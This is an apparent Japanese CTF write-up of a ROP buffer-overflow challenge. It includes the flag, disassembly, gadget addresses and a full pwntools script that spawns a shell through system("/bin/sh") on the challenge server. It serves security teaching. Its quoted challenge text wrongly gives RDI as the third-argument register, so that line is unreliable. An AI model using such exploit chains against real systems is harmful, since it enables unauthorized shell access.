







# rop func call [pwn]
## 問題文

```
nc rop.wanictf.org 9006
```

+ x64の関数呼び出しと、Return Oriented Programming (ROP)を理解する必要があります。
+ x64の関数呼び出しでは第一引数がRDI、第二引数がRSI、第三引数がRDIに設定する必要があります。
+ pwntoolsを使わないと解くのは大変だと思います。
+ 念のためpwntoolsのサンプルプログラム「pwn06_sample.py」を載せておきました。

### 使用ツール例

+ [pwntools](https://github.com/wani-hackase/memo-setup-pwn-utils#pwntools)
+ [objdump](https://github.com/wani-hackase/memo-setup-pwn-utils#objdump)
+ [ROPgadget](https://github.com/wani-hackase/memo-setup-pwn-utils#ROPgadget)

### セキュリティ保護

+ *Partial RELocation ReadOnly (RELRO)*
+ *Stack Smash Protection (SSP)無効*
+ No eXecute bit(NX)有効
+ *Position Independent Executable (PIE)無効*

## FLAG
```
FLAG{learning-rop-and-x64-system-call}
```
## 解法

Buffer Over Flow (BOF)を使ってROPでsystem("/bin/sh")を呼びます。
ROPとはReturn Oriented Programmingの略で、ret命令で終わる小さな命令群を組み合わせてリークをしたりシェルを起動したり任意のアドレスを書き換えたりいろんな処理を記述するテクニックです。
ret命令で終わる小さな命令群はROP gadgetと呼ばれます。
ROP gadgetはret命令で終わるのでスタックに実行したい順にROP gadgetのアドレスを積んでおくと順番にROP gadgetが実行されて行って複雑な処理を行うこともできます。
ROPgadgetと呼ばれるツールを使って実行バイナリやlibcから利用可能なROP gadgetを見つけることができます。

今回の問題ではスタックでnameは22文字埋めると戻り番地に届くのでそこから`system("/bin/sh")`を呼ぶROPを組み立てます。
具体的には
```
RDI = /bin/shのアドレス
RSI = 0
```
の状態にしてsystem関数のアドレスに飛ばせばシェルを呼び出せます。

まず、
```
objdump -d -M intel ./pwn06
```
を使ってアドレスをいろいろ調べます。

helloの文字列が入っている場所はobjdumpでwriteを呼んでいる辺りに書いています。
Cのコードで言うと
```
    write(0, str_head, strlen(str_head));
```
の部分がobjdumpだとvulnの
```
  400821:       c6 44 05 f2 00          mov    BYTE PTR [rbp+rax*1-0xe],0x0
  400826:       48 8d 3d 43 08 20 00    lea    rdi,[rip+0x200843]        # 601070 <str_head>
  40082d:       e8 6e fe ff ff          call   4006a0 <strlen@plt>
  400832:       48 89 c2                mov    rdx,rax
  400835:       48 8d 35 34 08 20 00    lea    rsi,[rip+0x200834]        # 601070 <str_head>
  40083c:       bf 00 00 00 00          mov    edi,0x0
  400841:       e8 4a fe ff ff          call   400690 <write@plt>
  400846:       48 8d 45 f2             lea    rax,[rbp-0xe]
```    
の辺りになります。
str_headのアドレスが0x601070だと言うことが分かります。
```
strings -tx ./pwn06 | less
```
とすると`hello`が0x1070で、`/bin/sh`が0x1080であることが分かるので、"/bin/sh"がロードされているのは0x601080だということが分かります。

```
    b00 ***end stack dump***
    be7 ;*3$"
   1070 hello
   1080 /bin/sh
   1088 GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
   1809 crtstuff.c
```   


system関数はsystem@pltを使って関数呼び出しが可能です。
よって、system関数のアドレスと"/bin/sh"のアドレスはそれぞれ以下の通りになります。

```
addr_system_plt = 0x4006c0  # system関数のアドレス
addr_binsh = 0x601080   # 文字列"/bin/sh"のアドレス
```

次に、ROPgadgetでrdiに値をセットするgadgetとrsiに値をセットするgadgetを探し出します。
```
ROPgadget --binary ./pwn06 | less
```
すると
```
0x0000000000400a53 : pop rdi ; ret
0x0000000000400a51 : pop rsi ; pop r15 ; ret
```
が見つかります。

あとはこれを使ってROPを組めば終わりです。

```
import pwn

io = pwn.remote("rop.wanictf.org", 9006)
#io = pwn.process("./pwn06")

ret = io.readuntil("What's your name?: ")
print(ret)

addr_system_plt = 0x4006c0
addr_binsh = 0x601080
addr_pop_rdi = 0x400a53
addr_pop_rsi_pop = 0x400a51

s = b"A" * 22
s += pwn.p64(addr_pop_rdi)
s += pwn.p64(addr_binsh)
s += pwn.p64(addr_pop_rsi_pop)
s += pwn.p64(0)
s += pwn.p64(0)
s += pwn.p64(addr_system_plt)

print(s)

io.send(s)
io.interactive()
```

### ROPの挙動

ROPの挙動はPWNを始めた約2年前に僕自身理解するのが大変だったので書いておきます。

#### ↓ vulnの中でbuffer over flowを用いてstackにROPコードを入れたとします。



#### ↓ vulnの最後でret命令が呼ばれると、rspが指しているアドレスに飛ぶと同時にrspが8バイト下にずれます。ここでは、pop rdiのガジェットのところに飛びます。



#### ↓ pop rdiが呼ばれると、rspが指しているアドレスの値がrdiレジスタに入ると同時にrspが8バイト下にずれます。



#### ↓ ret命令が呼ばれると、rspが指しているpop rsiのガジェットのアドレスに飛ぶと同時にrspが8バイト下にずれます。



#### ↓ pop rsiが呼ばれると、rspが指しているアドレスの値がrsiレジスタに入ると同時にrspが8バイト下にずれます。



#### ↓ pop r15が呼ばれると、rspが指しているアドレスの値がr15レジスタに入ると同時に8バイト下にずれます。r15の値は使わないのですが、pop rsiを含んだgadgetが`pop rsi; pop r15; ret`しか存在しないのでr15にはとりあえずごみを入れておきます。



#### ↓ ret命令が呼ばれると、rspが指しているsystem関数のPLTに飛んで、system関数が引数に"/bin/sh"として実行されます。



### system関数とかでforkが起きるときのgdbの操作

自分がはまってしまったのでメモ。
startで実行してからset follow-fork-mode parentするとsystem関数が呼ばれたあともデバッグを継続できます。
startする前にset follow-fork-mode parentしてしまうとシェルを追ってしまうので必ずstartした直後にset follow-fork-mode parentすることが大事。
今までうまくgdbで解析ができないPWN問題があったのはこれだったのかな．．．

### 参考

- [GDBでforkしたプロセスのデバッグ | Pistolfly](https://www.pistolfly.com/weblog/2015/07/fork%E3%81%97%E3%81%9F%E3%83%97%E3%83%AD%E3%82%BB%E3%82%B9%E3%81%AE%E3%83%87%E3%83%90%E3%83%83%E3%82%B0.html)